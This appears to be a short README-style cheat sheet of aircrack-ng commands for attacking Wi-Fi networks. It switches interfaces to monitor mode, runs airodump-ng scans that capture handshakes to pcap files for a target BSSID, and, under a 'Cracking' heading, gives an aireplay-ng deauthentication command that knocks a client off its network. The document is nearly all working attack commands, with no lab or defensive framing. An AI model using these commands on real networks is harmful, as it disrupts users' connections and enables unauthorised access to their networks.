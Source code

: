 ## Driver
```bash
https://github.com/aircrack-ng/rtl8812au
```

## Settings
```bash
ip link set wlan0 down
iw dev wlan0 set type monitor
ip link set wlan0 up

ip link set wlan1 down
iw dev wlan1 set type monitor
ip link set wlan1 up
```

## Monitor
```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime --band a wlan0

airodump-ng --manufacturer --beacons --showack --wps --uptime --band bg wlan0
```

```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime \
            --bssid 00:00:00:00:00:00 --channel 1 wlan0
```

```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime \
            --bssid 00:00:00:00:00:00 --channel 1 \
            --write-interval 5 --output-format pcap wlan0 --write session0
```

## Cracking
```bash
iwconfig wlan1 channel 4

aireplay-ng -0 99 -D -a BSSID -c TARGET wlan1
```

## Kill View
```bash
kill -9 `ps aux | grep -i aircrack | awk '{print $2}'`
```
